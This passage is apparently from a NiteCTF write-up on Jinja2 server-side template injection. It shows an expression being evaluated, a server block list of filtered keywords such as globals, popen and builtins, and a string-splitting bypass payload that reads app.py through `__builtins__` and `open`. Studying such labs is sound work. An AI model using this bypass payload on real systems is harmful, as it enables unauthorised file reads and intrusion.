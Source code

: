 Let’s try exploiting this variable for potential injection through it.

<img src="/assets/posts/NiteCTF/24.png" alt="24" width="80%"/>

That worked, the server successfully evaluated the expression `1+1` and return `2` under the `__v` variable.

If you’re curious about the use of curly braces here, 

💡 In many web applications, especially those using template engines like **Jinja2** (commonly used with Flask in Python), curly braces are used to **evaluate expressions** and **render dynamic content**. Template engines allow dynamic content to be injected into HTML or JSON responses by evaluating expressions within these curly braces.
Using `Hacktricks` as a resource, 

[HackTricks/jinja2-ssti.md](https://github.com/HackTricks-wiki/hacktricks/blob/master/pentesting-web/ssti-server-side-template-injection/jinja2-ssti.md)

We try out the first payload, `config`, [Add curly braces!] In these object you can find all the configured env variables and dump them.

```bash
HTTP/2 200 OK
Content-Type: application/json
Date: Thu, 19 Dec 2024 11:19:13 GMT
Server: gunicorn
Content-Length: 219

{"error":"Invalid input! The following characters are not allowed: 
config, globals, read, |join, getitem, import, popen, lipsum, request, os, 
subclasses, cat, base, builtins, init, cycler, joiner, namespace, shell, ."}
```

Well that worked. Further,

```bash
Payload = url_for['__gl'+'obals__']['__buil'+'tins__']['op'+'en']('app\\x2epy')['re'+'ad']()
```
